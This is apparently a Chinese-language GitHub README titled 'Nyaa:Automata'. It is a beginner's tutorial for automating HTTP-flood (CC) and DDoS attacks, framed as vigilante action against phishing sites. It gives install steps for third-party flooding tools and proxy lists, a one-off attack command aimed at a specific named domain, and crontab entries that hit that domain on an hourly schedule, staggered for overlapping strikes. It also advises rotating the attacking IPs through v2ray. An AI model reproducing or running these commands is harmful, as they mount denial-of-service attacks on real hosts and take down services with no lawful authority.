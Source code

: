 # Nyaa:Automata
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
    apt update -y
    apt install git vim zip python3 python3-pip -y
    wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
    pip3 install -r requirements.txt

## 安装CC-attack

    git clone https://github.com/Leeon123/CC-attack.git

## 获取Proxy-List（cc的喂料包，这有点大）
    git clone https://github.com/ShiftyTR/Proxy-List.git

## 安装overload（ddos工具）
    git clone https://github.com/7zx/overload.git
    cd overload/
    wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
    cd ..

- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
    python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30

- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
    python3 ~/overload/overload_p.py

- 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
    crontab -e

- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
    0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30
    30 * * * * python3 ~/overload/overload_p.py

- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
